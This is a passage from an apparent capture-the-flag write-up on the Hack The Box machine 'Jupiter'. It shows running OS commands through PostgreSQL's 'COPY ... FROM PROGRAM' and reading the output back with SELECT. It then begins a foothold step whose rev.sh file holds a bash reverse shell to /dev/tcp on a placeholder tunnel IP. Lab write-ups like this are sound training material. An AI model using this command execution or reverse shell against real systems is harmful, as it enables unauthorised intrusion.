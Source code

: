 We can run a command by simply issuing the below SQL query:

```sql
COPY cmd_exec FROM PROGRAM 'id';
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 15_54_21-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>COPY cmd_exec FROM PROGRAM 'id'</i></center>
<br/>


After that, We can get the output of this command by running the SQL query:
```sql
SELECT * FROM cmd_exec;
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-jupiter/2023-10-18 15_56_20-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>SELECT * FROM cmd_exec</i></center>
<br/>

* As can be seen, the PostgreSQL database is running as the user `postgres`.

#### **<strong><font color="DarkKhaki">Foothold as postgres</font></strong>**

We can gain an initial foothold on the box, as `postgres`, by following the steps below:

**1-** Create a file named `rev.sh` that contains the following bash script: <br/>
```bash
/usr/bin/bash -i >& /dev/tcp/<tun0-IP>/9999 0>&1
```
